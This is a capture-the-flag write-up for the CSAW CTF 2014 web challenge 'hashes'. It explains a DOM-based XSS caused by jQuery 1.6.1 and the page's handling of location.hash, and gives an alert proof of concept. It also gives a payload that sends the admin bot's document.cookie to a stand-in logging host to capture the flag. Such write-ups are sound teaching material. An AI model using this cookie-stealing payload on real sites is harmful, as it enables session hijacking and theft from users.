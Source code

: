 # CSAW CTF 2014: hashes

**Category:** Web
**Points:** 300
**Description:**

> location, location, location
>
> Chal is very very stable. If you were scanning the site while I was doing dev work your requests are probably being dropped.
>
> <http://54.86.199.163:7878/>
>
> Written by ColdHeat

## Write-up

The linked page uses an old version of the jQuery library (v1.6.1), [which enables an XSS vulnerability when e.g. `$('#' + userContent)` is called](http://bugs.jquery.com/ticket/9521). The page also contains this script:

```js
$(window).bind( 'hashchange', function(e) {
  $('.image').hide()
  tag = window.location.hash
  $(tag).show()
});
tag = window.location.hash
$(tag).show()
```

This makes it possible to inject arbitrary JavaScript simply by changing the hash in the URL. For example, [`#<img src=/ onerror=alert(1)>`](http://54.86.199.163:7878/) displays an alert box.

The page also features a form that can be used to submit image URLs that will then be visited by a bot. Assuming the bot has special admin privileges on this website, and possibly an interesting cookie, let’s try submitting this URL:

```
http://54.86.199.163:7878/#<img src=/ onerror=location='https://your-site.example.com/log?c='+document.cookie>
```

This redirects the bot to a page under our control, passing along the cookie value. The `log` script is a simple server-side script written in your language of choice that simply writes the `c` URL parameter value to a file, or stores it in a database.

A few moments after submitting the above URL, the bot indeed visits our page, and the logger script logs the cookie:

```
win="flag{these_browser_bots_are_annoying}"
```

The flag is `these_browser_bots_are_annoying`.

## Other write-ups

* none yet
